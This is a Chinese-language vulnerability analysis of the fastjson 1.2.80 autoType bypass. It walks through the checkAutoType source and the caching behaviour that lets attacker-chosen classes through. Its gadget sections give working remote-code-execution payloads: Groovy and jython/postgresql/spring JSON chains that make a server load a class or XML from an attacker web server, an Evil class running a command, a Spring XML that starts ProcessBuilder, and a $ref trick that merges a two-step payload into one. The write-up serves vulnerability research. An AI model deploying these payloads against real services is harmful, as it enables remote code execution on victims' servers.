

# 用于fastjson组件探测的特性
下面的特性可用于黑盒探测服务端的json组件是否是fastjson：
```json
Feature.AllowArbitraryCommas 默认为true， fastjson允许{"a":1,,,"b":2}这种多个逗号的写法；
```

# checkAutoType源码解析
```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
    if (typeName == null) {
        return null;
    }

    if (autoTypeCheckHandlers != null) { // 用户可以自定义AutoTypeCheckHandler，不可控
        for (AutoTypeCheckHandler h : autoTypeCheckHandlers) {
            Class<?> type = h.handler(typeName, expectClass, features);
            if (type != null) {
                return type;
            }
        }
    }

    final int safeModeMask = Feature.SafeMode.mask;  //如果开启了safeMode，彻底不支持autoType；safeMode默认为false
    boolean safeMode = this.safeMode
            || (features & safeModeMask) != 0
            || (JSON.DEFAULT_PARSER_FEATURE & safeModeMask) != 0;
    if (safeMode) {
        throw new JSONException("safeMode not support autoType : " + typeName);
    }

    if (typeName.length() >= 192 || typeName.length() < 3) {//@type指定的类名长度限制
        throw new JSONException("autoType is not support. " + typeName);
    }

    final boolean expectClassFlag;
    if (expectClass == null) {
        expectClassFlag = false;
    } else {
        long expectHash = TypeUtils.fnv1a_64(expectClass.getName());
        if (expectHash == 0x90a25f5baa21529eL  // Serializable.class
                || expectHash == 0x2d10a5801b9d6136L //Cloneable.class
                || expectHash == 0xaf586a571e302c6bL // Closeable.class
                || expectHash == 0xed007300a7b227c6L // java.lang.AutoCloseable.class
                || expectHash == 0x295c4605fd1eaa95L //java.lang.Readable.class
                || expectHash == 0x47ef269aadc650b4L//java.lang.Runnable.class
                || expectHash == 0x6439c4dff712ae8bL //java.util.EventListener.class
                || expectHash == 0xe3dd9875a2dc5283L //java.lang.Iterable.class
                || expectHash == 0xe2a8ddba03e69e0dL //java.util.Collection.class
                || expectHash == 0xd734ceb4c3e9d1daL //Object.class
        ) {
            expectClassFlag = false;
        } else {
            expectClassFlag = true;
        }
    }

    String className = typeName.replace('$', '.');
    Class<?> clazz;

    final long h1 = (fnv1a_64_magic_hashcode ^ className.charAt(0)) * fnv1a_64_magic_prime;
    if (h1 == 0xaf64164c86024f1aL) { // [ //首字母不能为[
        throw new JSONException("autoType is not support. " + typeName);
    }

    if ((h1 ^ className.charAt(className.length() - 1)) * fnv1a_64_magic_prime == 0x9198507b5af98f0L) { //不能是L开头,;分号结尾
        throw new JSONException("autoType is not support. " + typeName);
    }

    final long h3 = (((((fnv1a_64_magic_hashcode ^ className.charAt(0))
            * fnv1a_64_magic_prime)
            ^ className.charAt(1))
            * fnv1a_64_magic_prime)
            ^ className.charAt(2))
            * fnv1a_64_magic_prime;

    long fullHash = TypeUtils.fnv1a_64(className);
    boolean internalWhite = Arrays.binarySearch(INTERNAL_WHITELIST_HASHCODES,  fullHash) >= 0; //内置白名单类

    if (internalDenyHashCodes != null) { // internalDenyHashCodes默认为null
        long hash = h3;
        for (int i = 3; i < className.length(); ++i) {
            hash ^= className.charAt(i);
            hash *= fnv1a_64_magic_prime;
            if (Arrays.binarySearch(internalDenyHashCodes, hash) >= 0) {
                throw new JSONException("autoType is not support. " + typeName);
            }
        }
    }

    if ((!internalWhite) && (autoTypeSupport || expectClassFlag)) { // internalWhite默认为false,不管设置autoTypeSupport为true还是expectClassFlag为true,都得要进入黑名单检查
        long hash = h3;
        for (int i = 3; i < className.length(); ++i) {
            hash ^= className.charAt(i);
            hash *= fnv1a_64_magic_prime;
            if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                clazz = TypeUtils.loadClass(typeName, defaultClassLoader, true);
                if (clazz != null) {
                    return clazz;
                }
            }
            if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                if (Arrays.binarySearch(acceptHashCodes, fullHash) >= 0) {
                    continue;
                }

                throw new JSONException("autoType is not support. " + typeName);
            }
        }
    }

    clazz = TypeUtils.getClassFromMapping(typeName); // 从TypeUtils的mappings中获取

    if (clazz == null) {
        clazz = deserializers.findClass(typeName); //如果缓存中没找到，再从deserializers里面找
    }

    if (clazz == null) {
        clazz = typeMapping.get(typeName); //typeMapping默认为空
    }

    if (internalWhite) { //默认false
        clazz = TypeUtils.loadClass(typeName, defaultClassLoader, true);
    }

    if (clazz != null) {
        if (expectClass != null
                && clazz != java.util.HashMap.class
                && clazz != java.util.LinkedHashMap.class
                && !expectClass.isAssignableFrom(clazz)) { //注意这里如果clazz是expectClass的子类，也可以获取到clazz，不会抛出异常；
            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
        }

        return clazz;
    }

    if (!autoTypeSupport) {
        long hash = h3;
        for (int i = 3; i < className.length(); ++i) {
            char c = className.charAt(i);
            hash ^= c;
            hash *= fnv1a_64_magic_prime;

            if (Arrays.binarySearch(denyHashCodes, hash) >= 0) {//黑名单列表参考：https://github.com/LeadroyaL/fastjson-blacklist
                throw new JSONException("autoType is not support. " + typeName);
            }

            // white list
            if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) { //acceptHashCodes默认为空
                clazz = TypeUtils.loadClass(typeName, defaultClassLoader, true);

                if (clazz == null) {
                    return expectClass;
                }

                if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }

                return clazz;
            }
        }
    }

    boolean jsonType = false;
    InputStream is = null;
    try {
        String resource = typeName.replace('.', '/') + ".class";
        if (defaultClassLoader != null) {
            is = defaultClassLoader.getResourceAsStream(resource);
        } else {
            is = ParserConfig.class.getClassLoader().getResourceAsStream(resource);
        }
        if (is != null) {
            ClassReader classReader = new ClassReader(is, true);
            TypeCollector visitor = new TypeCollector("<clinit>", new Class[0]);
            classReader.accept(visitor);
            jsonType = visitor.hasJsonType();
        }
    } catch (Exception e) {
        // skip
    } finally {
        IOUtils.close(is);
    }

    final int mask = Feature.SupportAutoType.mask;
    boolean autoTypeSupport = this.autoTypeSupport
            || (features & mask) != 0
            || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;

    if (autoTypeSupport || jsonType || expectClassFlag) {
        boolean cacheClass = autoTypeSupport || jsonType;
        clazz = TypeUtils.loadClass(typeName, defaultClassLoader, cacheClass);
    }

    if (clazz != null) {
        if (jsonType) {
            TypeUtils.addMapping(typeName, clazz);
            return clazz;
        }

        if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
                || javax.sql.DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
                || javax.sql.RowSet.class.isAssignableFrom(clazz) //
                ) {
            throw new JSONException("autoType is not support. " + typeName);
        }

        if (expectClass != null) {
            if (expectClass.isAssignableFrom(clazz)) {
                TypeUtils.addMapping(typeName, clazz);
                return clazz;
            } else {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }
        }

        JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, propertyNamingStrategy);
        if (beanInfo.creatorConstructor != null && autoTypeSupport) {
            throw new JSONException("autoType is not support. " + typeName);
        }
    }

    if (!autoTypeSupport) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    if (clazz != null) {
        TypeUtils.addMapping(typeName, clazz);
    }

    return clazz;
}
```
1.2.80版本下TypeUtils中的mappings包括以下的类：
```text
java.lang.IndexOutOfBoundsException
java.lang.Integer
java.lang.NoSuchFieldException
java.lang.Long
java.math.BigInteger
java.lang.LinkageError
java.lang.StringIndexOutOfBoundsException
java.lang.StackOverflowError
long
java.lang.VerifyError
java.util.LinkedHashMap
java.util.Calendar
java.lang.StackTraceElement
[long
java.lang.NoSuchMethodError
java.util.concurrent.atomic.AtomicLong
java.util.TreeMap
java.util.Date
java.lang.NoSuchFieldError
java.util.concurrent.atomic.AtomicInteger
java.lang.Short
java.util.Locale
java.lang.InstantiationException
java.lang.SecurityException
java.sql.Timestamp
java.util.concurrent.ConcurrentHashMap
java.util.UUID
java.lang.IllegalAccessError
com.alibaba.fastjson.JSONObject
[short
java.util.HashSet
[byte
java.lang.Boolean
java.sql.Date
short
java.lang.Object
java.util.BitSet
[char
java.lang.Float
java.math.BigDecimal
java.lang.Character
java.lang.InternalError
[double
byte
double
java.lang.Exception
java.lang.Double
[B
java.lang.TypeNotPresentException
[C
[D
java.text.SimpleDateFormat
[F
[I
java.util.TreeSet
[J
java.util.ArrayList
java.lang.IllegalMonitorStateException
com.alibaba.fastjson.JSONArray
[S
java.lang.String
java.lang.Number
java.util.LinkedHashSet
[Z
java.lang.NegativeArraySizeException
java.lang.NumberFormatException
java.lang.RuntimeException
char
java.lang.OutOfMemoryError
java.lang.IllegalStateException
java.sql.Time
java.lang.NoSuchMethodException
java.util.Collections$EmptyMap
[boolean
float
java.lang.AutoCloseable
java.lang.NullPointerException
java.lang.Byte
[int
com.alibaba.fastjson.JSONPObject
java.lang.Cloneable
java.lang.IllegalAccessException
java.util.IdentityHashMap
java.util.HashMap
java.lang.NoClassDefFoundError
java.util.Hashtable
java.util.WeakHashMap
java.lang.IllegalThreadStateException
java.lang.IllegalArgumentException
int
java.util.concurrent.TimeUnit
boolean
java.lang.InstantiationError
java.lang.InterruptedException
[float
```
deserializer列表：

| key | deserializer                                                           |
|  ----  |------------------------------------------------------------------------|
|java.lang.Object| com.alibaba.fastjson.parser.deserializer.JavaObjectDeserializer        |
|java.net.Inet4Address| com.alibaba.fastjson.serializer.MiscCodec                              |
|java.util.UUID| com.alibaba.fastjson.serializer.MiscCodec                              |
|java.util.concurrent.atomic.AtomicIntegerArray| com.alibaba.fastjson.serializer.AtomicCodec                            |
|java.net.URL| com.alibaba.fastjson.serializer.MiscCodec                              |
|java.lang.Long| com.alibaba.fastjson.serializer.LongCodec                              |
|java.io.File| com.alibaba.fastjson.serializer.MiscCodec                              |
|java.lang.ref.SoftReference| com.alibaba.fastjson.serializer.ReferenceCodec                         |
|long| com.alibaba.fastjson.serializer.LongCodec                              |
|java.io.Closeable| com.alibaba.fastjson.parser.deserializer.JavaObjectDeserializer        |
|java.util.Locale| com.alibaba.fastjson.serializer.MiscCodec                              |
|java.lang.StringBuilder| com.alibaba.fastjson.serializer.StringCodec                            |
|java.math.BigInteger| com.alibaba.fastjson.serializer.BigIntegerCodec                        |
|java.util.concurrent.atomic.AtomicReference| com.alibaba.fastjson.serializer.ReferenceCodec                         |
|byte| com.alibaba.fastjson.parser.deserializer.NumberDeserializer            |
|java.util.concurrent.ConcurrentHashMap| com.alibaba.fastjson.parser.deserializer.MapDeserializer               |
|java.util.Map| com.alibaba.fastjson.parser.deserializer.MapDeserializer               |
|java.util.TreeMap| com.alibaba.fastjson.parser.deserializer.MapDeserializer               |
|[C| com.alibaba.fastjson.serializer.CharArrayCodec                         |
|double| com.alibaba.fastjson.parser.deserializer.NumberDeserializer            |
|java.util.Calendar| com.alibaba.fastjson.serializer.CalendarCodec                          |
|java.util.Date| com.alibaba.fastjson.serializer.DateCodec                              |
|java.lang.Byte| com.alibaba.fastjson.parser.deserializer.NumberDeserializer            |
|int| com.alibaba.fastjson.serializer.IntegerCodec                           |
|java.lang.Class| com.alibaba.fastjson.serializer.MiscCodec                              |
|java.lang.Exception| com.alibaba.fastjson.parser.deserializer.ThrowableDeserializer         |
|javax.xml.datatype.XMLGregorianCalendar| com.alibaba.fastjson.serializer.CalendarCodec                          |
|boolean| com.alibaba.fastjson.serializer.BooleanCodec                           |
|java.sql.Time| com.alibaba.fastjson.parser.deserializer.TimeDeserializer              |
|com.alibaba.fastjson.JSONPath| com.alibaba.fastjson.serializer.MiscCodec                              |
|java.nio.charset.Charset| com.alibaba.fastjson.serializer.MiscCodec                              |
|java.lang.Number| com.alibaba.fastjson.parser.deserializer.NumberDeserializer            |
|com.alibaba.fastjson.JSONArray| com.alibaba.fastjson.serializer.CollectionCodec                        |
|short| com.alibaba.fastjson.parser.deserializer.NumberDeserializer            |
|java.lang.Cloneable| com.alibaba.fastjson.parser.deserializer.JavaObjectDeserializer        |
|java.util.HashMap| com.alibaba.fastjson.parser.deserializer.MapDeserializer               |
|java.util.concurrent.atomic.AtomicInteger| com.alibaba.fastjson.serializer.IntegerCodec                           |
|java.lang.StringBuffer| com.alibaba.fastjson.serializer.StringCodec                            |
|java.math.BigDecimal| com.alibaba.fastjson.serializer.BigDecimalCodec                        |
|java.lang.Character| com.alibaba.fastjson.serializer.CharacterCodec                         |
|java.lang.Integer| com.alibaba.fastjson.serializer.IntegerCodec                           |
|java.lang.Short| com.alibaba.fastjson.parser.deserializer.NumberDeserializer            |
|java.net.InetSocketAddress| com.alibaba.fastjson.serializer.MiscCodec                              |
|java.sql.Date| com.alibaba.fastjson.parser.deserializer.SqlDateDeserializer           |
|java.util.concurrent.atomic.AtomicLongArray| com.alibaba.fastjson.serializer.AtomicCodec                            |
|java.lang.ref.WeakReference| com.alibaba.fastjson.serializer.ReferenceCodec                         |
|com.alibaba.fastjson.JSONObject| com.alibaba.fastjson.parser.deserializer.MapDeserializer               |
|com.alibaba.fastjson.JSONPObject| com.alibaba.fastjson.parser.deserializer.JSONPDeserializer             |
|java.lang.String| com.alibaba.fastjson.serializer.StringCodec                            |
|java.util.concurrent.atomic.AtomicLong| com.alibaba.fastjson.serializer.LongCodec                              |
|java.text.SimpleDateFormat| com.alibaba.fastjson.serializer.MiscCodec                              |
|float| com.alibaba.fastjson.serializer.FloatCodec                             |
|java.util.concurrent.atomic.AtomicBoolean| com.alibaba.fastjson.serializer.BooleanCodec                           |
|java.net.Inet6Address| com.alibaba.fastjson.serializer.MiscCodec                              |
|java.net.URI| com.alibaba.fastjson.serializer.MiscCodec                              |
|java.sql.Timestamp| com.alibaba.fastjson.parser.deserializer.SqlDateDeserializer           |
|java.io.Serializable| com.alibaba.fastjson.parser.deserializer.JavaObjectDeserializer        |
|java.util.LinkedHashMap| com.alibaba.fastjson.parser.deserializer.MapDeserializer               |
|java.lang.StackTraceElement| com.alibaba.fastjson.parser.deserializer.StackTraceElementDeserializer |
|java.lang.Float| com.alibaba.fastjson.serializer.FloatCodec                             |
|java.util.Collection| com.alibaba.fastjson.serializer.CollectionCodec                        |
|java.util.concurrent.ConcurrentMap| com.alibaba.fastjson.parser.deserializer.MapDeserializer               |
|java.lang.Double| com.alibaba.fastjson.parser.deserializer.NumberDeserializer            |
|java.util.TimeZone| com.alibaba.fastjson.serializer.MiscCodec                              |
|char| com.alibaba.fastjson.serializer.CharacterCodec                         |
|java.lang.Comparable| com.alibaba.fastjson.parser.deserializer.JavaObjectDeserializer        |
|java.util.ArrayList| com.alibaba.fastjson.serializer.CollectionCodec                        |
|java.util.regex.Pattern| com.alibaba.fastjson.serializer.MiscCodec                              |
|java.util.List| com.alibaba.fastjson.serializer.CollectionCodec                        |

# 1.2.80漏洞原理
```json
{
  "a":{
    "@type":"java.lang.Exception",
    "@type":"com.github.enokiy.VulException",
    "user":{}
  },
  "b":{
      "@type":"com.github.enokiy.User",
      "@type":"com.github.enokiy.Employee",
      "name":"enokiy",
      "eid":"1234567"
    }  
}
```
如果直接运行解析b部分,会因为autoType没开启而抛异常:


解析a部分中的第一个@type时，ParserConfig#checkAutoTypecheckAutoType(String typeName, Class<?> expectClass) 中因为Exception类在TypeUtils的mappings中默认存在，所以可以正常获取到clazz；因为class是Exception，所以获取到的Deserializer为ThrowableDeserializer。然后进入ThrowableDeserializer#deserialze(DefaultJSONParser parser, Type type, Object fieldName)方法：


在ThrowableDeserializer#deserialze(DefaultJSONParser parser, Type type, Object fieldName)中扫描到第二个"@type":"com.github.enokiy.VulException"，继续进入ParserConfig#checkAutoType(String typeName, Class<?> expectClass, int features)，此时expectClass为java.lang.Throwable，不在期望类的黑名单里，所以expectClassFlag为true，通过classLoader获取类；并且期望类不为空时将目标类加入TypeUtils的mappings中：


处理完两个@type之后再来看对"user":{}的处理过程。
在ThrowableDeserializer#deserialze(DefaultJSONParser parser, Type type, Object fieldName) 方法里面，除message、cause和stackTrace的其他参数，先对参数值进行解析之后放入otherValues这个map中，然后等创建了Exception的实例并处理完message、cause和stackTrace这三个值后，处理otherValues时先获取ObjectDeserializer,再得到一个fieldDeserializer。

```java
ThrowableDeserializer#deserialze：
......
else {
    if (otherValues == null) {
        otherValues = new HashMap<String, Object>();
    }
    otherValues.put(key, parser.parse()); //poc中传入的user的值为{},因此这里otherValues放入的key是user,value是一个空的JSONObject
}
......
if (otherValues != null) {
    JavaBeanDeserializer exBeanDeser = null;

    if (exClass != null) {
        if (exClass == clazz) {
            exBeanDeser = this;
        } else {
            ObjectDeserializer exDeser = parser.getConfig().getDeserializer(exClass);
            if (exDeser instanceof JavaBeanDeserializer) {
                exBeanDeser = (JavaBeanDeserializer) exDeser;
            }
        }
    }

    if (exBeanDeser != null) {
        for (Map.Entry<String, Object> entry : otherValues.entrySet()) {
            String key = entry.getKey();
            Object value = entry.getValue();

            FieldDeserializer fieldDeserializer = exBeanDeser.getFieldDeserializer(key);
            if (fieldDeserializer != null) {
                FieldInfo fieldInfo = fieldDeserializer.fieldInfo;
                if (!fieldInfo.fieldClass.isInstance(value)) { //poc中传入的user的值为{},value的值为JSONObject,而fieldInfo.fieldClass是com.github.enokiy.User,所以会进入下面的TypeUtils.cast
                    value = TypeUtils.cast(value, fieldInfo.fieldType, parser.getConfig());
                }
                fieldDeserializer.setValue(ex, value);
            }
        }
    }
```

如果value不是fieldClass类型的会进入`com.alibaba.fastjson.util.TypeUtils#cast(java.lang.Object, java.lang.reflect.Type, com.alibaba.fastjson.parser.ParserConfig)`进行类型转换：


由于poc中我们传入的user的值为{}，是一个map类型，所以最终会进入`com.alibaba.fastjson.util.TypeUtils#castToJavaBean((Map<String, Object>) obj, clazz, config)`


经过一系列判断之后再次进入ParserConfig#getDeserializer(Class<?> clazz, Type type)：


getDeserializer中会根据不同的类获取到对应的deserializer，如果默认的deserializer没找到，则根据类名创建javaBeanDeserializer，并且把创建的deserializer和对应的类放到ParserConfig的deserializers中：


然后通过javaBeanDeserializer创建对应类的实例，完成otherValues的类型转换。
到这里完成了a部分期望类的处理，到poc里面b部分的json解析时，第一个"@type":"com.github.enokiy.User"的处理过程中，在ParserConfig#checkAutoType(String typeName, Class<?> expectClass, int features)中，由于上面a部分的处理过程中User类以及对应的deserializer放入到ParserConfig的deserializers里面了，所以可以正常获取到类从而不会抛出异常：


**整体过程梳理：**

**根据Exception的子类VulException作为期望类时，ThrowableDeserializer首先基于构造函数创建VulException的实例，然后在处理otherValues时调用对应的setter方法，如果传入的类型和setter方法参数类型不一致会进行类型转换，对map类型进行转换时（castToJavaBean）会把setter方法的参数类型以及对应的deserializer存到ParserConfig的deseriablizers里面，等到真正的json字符串（b部分）进行反序列化时从deserializers里面成功获取到对应的clazz从而绕过autoType的检查。**


# gadgets
## groovy
```json
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}

{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
     "@type":"org.codehaus.groovy.control.CompilerConfiguration",
     "classpathList":"http://127.0.0.1:8090/"
    }
}
```

poc需要分两次发送；

在webserver下创建META-INF/services/org.codehaus.groovy.transform.ASTTransformation文件和Evil.class,META-INF/services/org.codehaus.groovy.transform.ASTTransformation的内容为Evil.  Evil.class的内容如下,注意Evil.class中的@GroovyASTTransformation注解:

```java
import org.codehaus.groovy.ast.ASTNode;
import org.codehaus.groovy.control.SourceUnit;
import org.codehaus.groovy.transform.ASTTransformation;
import org.codehaus.groovy.transform.GroovyASTTransformation;
import java.io.IOException;

@GroovyASTTransformation
public class groovyEvilPoc implements ASTTransformation {
    public void visit(ASTNode[] astNodes, SourceUnit sourceUnit) {
    }
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException var1) {

        }
    }
}
```
有两个问题需要注意：

1.  两者无法合并成一个poc，原因是在创建CompilationFailedException的实例之后为unit属性赋值时没有setUnit方法，直接抛出异常，json解析终止，后半部分的json不会被解析；（有没有其他方式可以 catch异常再继续解析的？答案参考后面）
2. 发送两次payload不会影响deserializer中的缓存信息，因为ParserConfig对象时static的，第一次解析抛异常之后CompilationFailedException的deserialzer依然会被放入deserializers中，第二次可以正常获取；


## jdbc jython+postgresql+spring-context

poc:

```json
{
    "a":{
    "@type":"java.lang.Exception",
    "@type":"org.python.antlr.ParseException",
    "type":{}
    },
    "b":{
        "@type":"org.python.core.PyObject",
        "@type":"com.ziclix.python.sql.PyConnection",
        "connection":{
            "@type":"org.postgresql.jdbc.PgConnection",
            "hostSpecs":[
                {
                    "host":"127.0.0.1",
                    "port":2333
                }
            ],
            "user":"user",
            "database":"test",
            "info":{
                "socketFactory":"org.springframework.context.support.ClassPathXmlApplicationContext",
                "socketFactoryArg":"http://127.0.0.1:8090/evil.xml"
            },
            "url":""
        }
    }
}
```

evil.xml的内容:
```xml
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder">
  <constructor-arg>
    <list value-type="java.lang.String" >
       <value>cmd</value>
       <value>/c</value>
       <value>calc</value>
    </list>
  </constructor-arg>
  <property name="whatever" value="#{pb.start()}"/>
</bean>
</beans>
```

不需要要开启2333端口的数据库端口即可触发.

# 异常捕获
我们在groovy的gadgets中提到，需要将payload分两次发送，原因是创建CompilationFailedException的实例（创建过程参考ThrowableDeserializer#createException方法）之后为unit属性赋值时没有setUnit方法，直接抛出异常，json解析终止，后半部分的json不会被解析；那么有没有方法能放到一起发送可以正常解析的方法呢？答案是有的，利用fastjson的$ref的能力；poc如下:
```json
{
    "a": "{\"@type\": \"java.lang.Exception\",\"@type\": \"org.codehaus.groovy.control.CompilationFailedException\",\"unit\": {}}",
    "b": {
        "$ref": "$.a.a"
    },
    "c": "{\"@type\": \"org.codehaus.groovy.control.ProcessingUnit\",\"@type\": \"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit\",\"config\": {\"@type\": \"org.codehaus.groovy.control.CompilerConfiguration\",\"classpathList\": \"http://127.0.0.1:8090/\"}}",
    "d": {
        "$ref": "$.c.d"
    }
}
```
将原来payload中的两部分分别变成字符串,然后再通过$ref引用就可以.根因分析:

如果要解析的json中存在key为$ref的对象,则会先把$ref添加到ResolveTask并且在处理完json之后再来处理$ref:


在$ref的处理过程中,JSONPath#getPropertyValue(...)方法中,当currentObject为字符串时会对字符串进行一次json解析,如果抛异常就忽略,继续处理后面的内容:


而把c部分也变成字符串的原因是因为fastjson等json解析完了再处理$ref,所以如果c部分是正常的json的话,由于a部分的字符串还没有被解析,从而unit属性的类ProcessingUnit还未被加入缓存,所以无法绕过autoType的检查.

# 总结&遗留问题
1. fastjson缓存特性: 如果一个类已经被加到白名单里,那么类对应的构造函数的参数类型、以及属性的类也会被加入到缓存白名单中；
2. 对于static的对象,如果会存外部用户可控的数据,是否会导致内存问题?
3. 漏洞利用不能只停留在看别人文章上,看文章好像懂了,但是自己一动手调发现有很多细节;
4. 对于反序列化这一类型的漏洞,如何建模可以快速找到gadget?

# 参考
1. https://github.com/knownsec/KCon/blob/master/2022/Hacking%20JSON%E3%80%90KCon2022%E3%80%91.pdf
2. https://y4er.com/posts/fastjson-1.2.80

